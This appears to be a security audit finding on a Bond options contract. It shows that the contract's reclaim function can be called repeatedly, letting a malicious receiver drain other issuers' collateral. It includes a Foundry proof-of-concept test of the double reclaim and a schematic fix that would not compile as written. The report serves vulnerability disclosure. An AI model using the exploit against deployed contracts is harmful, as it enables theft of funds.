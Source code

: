 Juntao

high

# Malicious receiver can steal collateral from other issuers

## Summary

 Malicious `receiver` can steal collateral from other issuers by reclaiming `option token` mutiple times.

## Vulnerability Detail

Option token Issuer creates `option token` and provides payout tokens as collateral, then issuer gives `option token` to someone (could be investment, incentive, or other):

1. If option is in the money, holder exercises by paying (strike price * amount of option tokens) quote tokens. Holder receives the payout tokens that were collateral in exchange.
2. If option is out of the money, option expires without being exercised. Holder doesn't pay to exercise and receives nothing. Issuer can reclaim payout token collateral.

If it is the second case, [reclaim(…)](https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L395-L437) method will be called and collateral will be reclaimed:

```solidity
    function reclaim(FixedStrikeOptionToken optionToken_) external override nonReentrant {
        // Load option parameters
        (
            ERC20 payoutToken,
            ERC20 quoteToken,
            uint48 eligible,
            uint48 expiry,
            address receiver,
            bool call,
            uint256 strikePrice
        ) = optionToken_.getOptionParameters();


        // Retrieve the internally stored option token with this configuration
        // Reverts internally if token doesn't exist
        FixedStrikeOptionToken optionToken = getOptionToken(
            payoutToken,
            quoteToken,
            eligible,
            expiry,
            receiver,
            call,
            strikePrice
        );


        // Revert if token does not match stored token
        if (optionToken_ != optionToken) revert Teller_UnsupportedToken(address(optionToken_));


        // Revert if not expired
        if (uint48(block.timestamp) < expiry) revert Teller_NotExpired(expiry);


        // Revert if caller is not receiver
        if (msg.sender != receiver) revert Teller_NotAuthorized();


        // Transfer remaining collateral to receiver
        uint256 amount = optionToken.totalSupply();
        if (call) {
            payoutToken.safeTransfer(receiver, amount);
        } else {
            // Calculate amount of quote tokens equivalent to amount at strike price
            uint256 quoteAmount = amount.mulDiv(strikePrice, 10 ** payoutToken.decimals());
            quoteToken.safeTransfer(receiver, quoteAmount);
        }
    }
```
However, there is no limit on the how many times the option token can be used to reclaim, a malicious receiver can reclaim multiple times by leveraging an expired `option token` and steal the collaterals deposited by other issuers.

Let's assume:

1. Issuer1 deposits 100 `payout token` and mints 100 `option token` (**optionToken1**), `expiry` is 1 day and `receiver` is **receiver1**;
2. Issuer2 deposites 100 `payout token` and mints 100 `option token` (**optionToken2**), `expiry` is 2 days and `receiver` is **receiver2**;
3. After 1 day, `optionToken1` expires, **receiver1** calls `reclaim(...)` method and reclaims the 100 `payout token` deposited by issuer1;
4. **receiver1** calls `reclaim(...)` method again and steals the 100 `payout token` deposited by issuer2;
5. After 2 days, **receiver2** tries to call `recalim(...)` method but transaction reverted because there is no `payout token` left.

Please see below test codes:
```solidity
    function testAudit() public {
        address issuer1 = address(1);
        address receiver1 = address(11);
        address issuer2 = address(2);
        address receiver2 = address(22);

        abc.mint(issuer1, 1_000_000 * 1e18);
        abc.mint(issuer2, 1_000_000 * 1e18);

        uint256 strikePrice = 5 * 10 ** def.decimals();
        FixedStrikeOptionToken optionToken1 = teller.deploy(
            abc, // ERC20 payoutToken
            def, // ERC20 quoteToken
            uint48(0), // uint48 eligible (timestamp) - today
            uint48(block.timestamp + 1 days), // uint48 expiry (timestamp) - 20220109
            receiver1, // address receiver
            true, // bool call (true) or put (false)
            strikePrice // uint256 strikePrice
        );

        FixedStrikeOptionToken optionToken2 = teller.deploy(
            abc, // ERC20 payoutToken
            def, // ERC20 quoteToken
            uint48(0), // uint48 eligible (timestamp) - today
            uint48(block.timestamp + 2 days), // uint48 expiry (timestamp) - 20220109
            receiver2, // address receiver
            true, // bool call (true) or put (false)
            strikePrice // uint256 strikePrice
        );

        // Mint option tokens by depositing collateral (payout tokens)
        uint256 amount = 100 * 10 ** abc.decimals();

        vm.startPrank(issuer1);
        abc.approve(address(teller), type(uint256).max);
        teller.create(optionToken1, amount);
        vm.stopPrank();

        vm.startPrank(issuer2);
        abc.approve(address(teller), type(uint256).max);
        teller.create(optionToken2, amount);
        vm.stopPrank();

        // Warp forward past expiry
        vm.warp(block.timestamp + 1 days);

        uint256 receiver1PayoutStart = abc.balanceOf(receiver1);
        uint256 receiver2PayoutStart = abc.balanceOf(receiver2);
        uint256 tellerPayoutStart = abc.balanceOf(address(teller));

        vm.prank(receiver1);
        teller.reclaim(optionToken1);

        vm.prank(receiver1);
        teller.reclaim(optionToken1);

        uint256 receiver1Balance = abc.balanceOf(receiver1);
        assertEq(abc.balanceOf(receiver1), receiver1PayoutStart + amount * 2);

        vm.warp(block.timestamp + 1 days);
        vm.prank(receiver2);
        vm.expectRevert(bytes("TRANSFER_FAILED"));
        teller.reclaim(optionToken2);
    }
```

## Impact

Issuers' collateral is stolen.

## Code Snippet

https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L395-L437

## Tool used

Manual Review

## Recommendation

Expired `option token` should only be reclaimed once.

1. add reclaiming state and setter method to `FixedStrikeOptionToken`:
```diff
+    bool public reclaimed;
+
+    function setReclaimed(bool _reclaimed) internal {
+        reclaimed = _reclaimed;
+    }
```

2. Check if `option token` have been reclaimed before reclaming and revert if so, set `option token` reclaimed after reclaiming:
```diff
    function reclaim(FixedStrikeOptionToken optionToken_) external override nonReentrant {
        ...
 
+       // Revert if token has been reclaimed
+       if (optionToken.reclaimed) revert;

        ...

+       // Set option token as reclaimed
+       optionToken.setReclaimed(true);
    }
```
